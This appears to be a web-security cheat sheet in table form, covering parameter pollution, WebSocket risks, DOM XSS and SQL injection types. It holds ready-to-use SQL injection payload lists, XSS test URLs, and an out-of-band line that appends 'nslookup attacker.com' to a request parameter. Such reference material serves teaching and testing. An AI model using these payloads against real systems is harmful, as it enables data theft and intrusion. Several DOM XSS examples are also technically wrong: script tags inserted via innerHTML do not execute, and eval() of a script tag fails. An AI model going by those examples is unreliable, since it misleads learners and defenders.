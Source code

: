 | **Parameter Pollution**    | Occurs when multiple parameters with the same name are submitted, potentially overwriting existing values and altering the application's behavior. | Can bypass security checks, alter application logic, or cause unexpected behavior by modifying parameters. | `?username=attacker&username=admin` to overwrite the username parameter. |
| **WebSocket**              | A communication protocol that enables real-time, bidirectional communication between client and server over a single connection. | Used for real-time applications like live chat, notifications, and gaming, offering low-latency interactions. | `wss://example.com/socket` for real-time communication in a chat app. |
| **WebSocket Vulnerabilities** | Risks associated with WebSocket connections, including hijacking, data injection, or DoS attacks if not properly secured. | Attackers can intercept or manipulate WebSocket connections, cause DoS attacks, or send malicious data. | Hijacking a WebSocket connection to inject malicious data or flood the server with requests. |




### **DOM XSS Overview in Details**

| **Aspect**        | **Details**                                                                                                                                      |
|-------------------|--------------------------------------------------------------------------------------------------------------------------------------------------|
| **Definition**    | DOM-based Cross-Site Scripting (DOM XSS) is a type of XSS attack where the vulnerability exists in the client-side code (JavaScript) rather than in the server-side code. It occurs when an attacker can manipulate the DOM (Document Object Model) of a web page in such a way that malicious scripts are executed in the user's browser. |
| **Conditions**    | - **Client-side JavaScript**: The attack relies on JavaScript code running in the user's browser. <br> - **Manipulated Input**: User input is improperly handled or sanitized, allowing script injection. <br> - **Dynamic Content**: Web pages dynamically update content based on user input or URL parameters. |
| **Where Performed** | - **URL Parameters**: Injecting scripts through URL query parameters. <br> - **DOM Manipulation**: Exploiting JavaScript functions that update the DOM using user input (e.g., `document.write`, `innerHTML`). <br> - **User Input**: Malicious input in fields or data that is dynamically added to the page. |
| **Examples**      | - **Example 1**: If a web application uses the following code to reflect a URL parameter into the page without proper validation: <br> `document.getElementById("output").innerHTML = location.hash.substring(1);` <br> An attacker can exploit this by visiting a URL like `http://example.com/#<script>alert('XSS')</script>`, causing the script to execute in the browser. <br><br> - **Example 2**: A web page that uses `document.location` to dynamically insert content into the page: <br> `document.getElementById("content").innerHTML = document.location.search.substring(1);` <br> If an attacker crafts a URL like `http://example.com/?<script>alert('XSS')</script>`, the script will execute on the page. <br><br> - **Example 3**: A site using `eval()` to execute JavaScript code from user input: <br> `eval(document.getElementById("codeInput").value);` <br> If an attacker inputs `<script>alert('XSS')</script>` into the `codeInput` field, it will be executed when `eval()` runs. |


### SQL Injection and Its Types


| **Type**                       | **Sub-Type**                  | **Description**                                                                                      | **Example Commands**                                  |
|-------------------------------|-------------------------------|------------------------------------------------------------------------------------------------------|-----------------------------------------------------|
| **In-band SQL Injection**      |                               | Uses the same communication channel for both launching the attack and retrieving results              |                                                     |
|                                | a) **Union-based SQLi**       | Utilizes the SQL UNION operator to combine the results of multiple SELECT queries into a single result set | `1 UNION SELECT username, password FROM users, ' UNION SELECT null, null--, ' UNION SELECT null, null, null--, ' UNION SELECT null, null, null, null--` |
|                                | b) **Error-based SQLi**       | Injects SQL code that triggers database errors, potentially revealing information about the database schema or contents | `AND 1=1--, SELECT 1/0--, AND 1=0--, AND 1=1#, OR 1=1, OR x=x` |
| **Blind SQL Injection**        |                               | The attacker does not see the result of the query directly but infers information from the application's responses |                                                     |
|                                | a) **Boolean-based Blind SQLi** | Sends SQL queries that result in true or false responses to infer data based on the application's behavior | `' OR '1'='1, ' OR 1=1--, " OR "" = ", " OR 1 = 1--, ' OR '' = ', ' OR 1=1 AND 'a'='a` |
|                                | b) **Time-based Blind SQLi**  | Introduces delays in SQL queries to infer data based on the application's response time              | `SLEEP(5)--, " OR SLEEP(5)--, ' OR SLEEP(5)--, WAITFOR DELAY '00:00:10'--` |
| **Out-of-band SQL Injection**  |                               | Uses alternative communication channels (such as DNS or HTTP) to exfiltrate data                      | `http://example.com/somepage.php?id=1; nslookup attacker.com` |